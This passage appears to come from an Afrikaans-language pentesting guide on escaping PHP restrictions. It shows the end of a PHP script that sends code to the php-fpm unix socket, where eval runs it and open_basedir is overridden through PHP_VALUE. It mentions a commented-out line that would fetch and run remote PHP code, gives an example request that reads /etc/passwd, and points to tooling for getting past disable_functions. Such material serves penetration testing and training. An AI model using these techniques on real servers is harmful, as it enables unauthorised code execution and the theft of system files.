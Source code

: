 ```php
'SERVER_SOFTWARE'   => '80sec/wofeiwo',
'REMOTE_ADDR'       => '127.0.0.1',
'REMOTE_PORT'       => '9985',
'SERVER_ADDR'       => '127.0.0.1',
'SERVER_PORT'       => '80',
'SERVER_NAME'       => 'localhost',
'SERVER_PROTOCOL'   => 'HTTP/1.1',
'CONTENT_LENGTH'    => strlen($code)
);
// print_r($_REQUEST);
// print_r($params);
//echo "Call: $uri\n\n";
echo $client->request($params, $code)."\n";
?>
```
Hierdie skrip sal kommunikeer met die **unix-socket van php-fpm** (gewoonlik geleë in /var/run as fpm gebruik word) om willekeurige kode uit te voer. Die `open_basedir` instellings sal oorskryf word deur die **PHP\_VALUE** eienskap wat gestuur word.\
Let op hoe `eval` gebruik word om die PHP-kode wat jy stuur binne die **cmd** parameter uit te voer.\
Let ook op die **uitgekommentarieerde lyn 324**, jy kan dit onuitgekommentarieer en die **payload sal outomaties verbind met die gegewe URL en die PHP-kode** wat daar bevat word, uitvoer.\
Besoek net `http://vulnerable.com:1337/l.php?cmd=echo file_get_contents('/etc/passwd');` om die inhoud van die `/etc/passwd` lêer te kry.

{% hint style="warning" %}
Jy mag dalk dink dat net soos ons die `open_basedir` konfigurasie oorskryf het, kan ons ook **`disable_functions` oorskryf**. Wel, probeer dit, maar dit sal nie werk nie, blykbaar kan **`disable_functions` slegs gekonfigureer word in 'n `.ini` php** konfigurasie lêer en die veranderinge wat jy maak met PHP\_VALUE sal nie effektief wees vir hierdie spesifieke instelling nie.
{% endhint %}

## disable\_functions Oorloop

As jy PHP-kode kan uitvoer binne 'n masjien, wil jy waarskynlik na die volgende vlak gaan en **willekeurige stelselopdragte uitvoer**. In hierdie situasie is dit gewoonlik om te ontdek dat die meeste of al die PHP **funksies** wat toelaat om **stelselopdragte uit te voer, gedeaktiveer is** in **`disable_functions`.**\
Kom ons kyk hoe jy hierdie beperking kan oorloop (as jy kan)

### Outomatiese oorloop-ontdekking

Jy kan die instrument [https://github.com/teambi0s/dfunc-bypasser](https://github.com/teambi0s/dfunc-bypasser) gebruik en dit sal aandui watter funksie (as enige) jy kan gebruik om **`disable_functions` te oorloop**.

### Oorloop deur ander stelsel funksies te gebruik

Gaan net terug na die begin van hierdie bladsy en **kyk of enige van die opdrag uitvoerende funksies nie gedeaktiveer is en beskikbaar is in die omgewing nie**. As jy een van hulle vind, sal jy dit kan gebruik om willekeurige stelselopdragte uit te voer.
